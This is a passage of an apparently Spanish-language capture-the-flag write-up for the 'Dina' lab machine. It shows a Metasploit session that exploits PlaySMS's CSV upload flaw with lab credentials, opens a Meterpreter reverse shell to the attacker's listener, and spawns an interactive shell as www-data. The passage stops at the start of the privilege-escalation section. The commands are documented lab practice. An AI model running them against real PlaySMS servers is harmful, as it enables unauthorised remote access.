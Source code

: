 ~~~~
msf6 > search playsms

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/multi/http/playsms_uploadcsv_exec      2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution
   1  exploit/multi/http/playsms_template_injection  2020-02-05       excellent  Yes    PlaySMS index.php Unauthenticated Template Injection Code Execution
   2  exploit/multi/http/playsms_filename_exec       2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/playsms_filename_exec

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set targeturi /SecreTSMSgatwayLogin
targeturi => /SecreTSMSgatwayLogin
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set rhosts 192.168.1.137
rhosts => 192.168.1.137
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set lhost 192.168.1.136
lhost => 192.168.1.136
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf6 exploit(multi/http/playsms_uploadcsv_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.136:4444 
[+] Authentication successful: touhid:diana
[*] Sending stage (39927 bytes) to 192.168.1.137
[*] Meterpreter session 1 opened (192.168.1.136:4444 -> 192.168.1.137:42876) at 2023-02-03 00:30:21 +0100

meterpreter > 
~~~~


## Escalada de privilegios

Estamos dentro, vamos a crear una shell interactiva y a por la flag de root.

~~~~
meterpreter > shell
Process 1880 created.
Channel 0 created.
script /dev/null -c bash
www-data@Dina:/var/www/SecreTSMSgatwayLogin$  
~~~~
